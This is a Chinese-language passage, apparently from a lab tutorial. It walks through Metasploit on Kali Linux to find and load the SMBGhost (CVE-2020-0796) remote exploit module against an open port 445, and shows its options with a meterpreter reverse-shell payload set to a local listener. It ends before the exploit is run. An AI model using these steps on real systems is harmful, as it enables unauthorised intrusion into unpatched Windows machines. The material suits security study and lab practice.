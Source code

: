 > 445 端口开启

运行 msf

```shell
┌──(root㉿kali)-[~]
└─# msfdb run
```

搜索永恒之黑

```
msf6 > search CVE-2020-0796
```

```
Matching Modules
================

   #  Name                                          Disclosure Date  Rank     Check  Description
   -  ----                                          ---------------  ----     -----  -----------
   0  exploit/windows/local/cve_2020_0796_smbghost  2020-03-13       good     Yes    SMBv3 Compression Buffer Overflow
   1  exploit/windows/smb/cve_2020_0796_smbghost    2020-03-13       average  Yes    SMBv3 Compression Buffer Overflow


Interact with a module by name or index. For example info 1, use 1 or use exploit/windows/smb/cve_2020_0796_smbghost
```

选择 exploit/windows/smb/cve_2020_0796_smbghost

```
msf6 > use 1
```

显示 options

```
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > show options
```

```
Module options (exploit/windows/smb/cve_2020_0796_smbghost):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/usin
                                      g-metasploit.html
   RPORT   445              yes       The target port (TCP)


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.30     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 10 v1903-1909 x64


```